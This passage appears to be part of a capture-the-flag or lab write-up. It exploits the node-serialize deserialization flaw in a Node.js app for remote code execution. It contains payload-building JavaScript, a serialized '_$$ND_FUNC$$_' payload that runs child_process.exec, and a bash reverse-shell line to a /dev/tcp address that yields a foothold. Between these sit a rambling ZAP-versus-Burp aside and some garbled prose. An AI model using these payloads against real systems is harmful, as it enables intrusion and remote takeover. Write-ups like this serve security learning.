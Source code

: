 [opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) - Payload building
```js
var y = {
    rce: function() {
        require('child_process').exec('ls /', function(error, stdout, stderr) {
            console.log(stdout)
        });
    }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```js
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ping -c 3 /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```

[nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

While Al forget a escaping and potentially a semi-colon I'll briefly address ZAP. Not that I am a shill, but ZAP is actually very powerful and in someways better than BurpSuite, for reporting and Bug Bounty hunting (Jasson Haddix recently 2022  methodolgy prefer Zap over Burp) mostly for plugin that are free are Burp Pro gatekept, as burp is multi-panel whereas ZAP is single panel UI centric - visualibity is better for tester. Also ZAP has builtin migitation and explaination text  making reporting AND recommending FIXES easier. Al's terminal color scene screws him on the escaping - the default is very good at that.

I would not suggest install npm, it is notorious
```bash
npm node-serialize
```

He needed neither and I was wrong - we did not need to escape the quotes; I just wrote the file for later use and use cat 0th wrapping of line.
```js
{"email":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 $IP', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

![](encodingthepayload.png)
Callback received
![](deserializedrceping.png)

Change the file to PoC for organisation and added a simple bash shell considering that is linux. It did not work the first while Al was stating that we need to escape the quotes so changed that.
```bash
bash -c \"exec bash -i &>/dev/tcp/10.11.3.193/6969 <&1\"
```

## Foothold

And we are dylan
![](wearedylan.png)
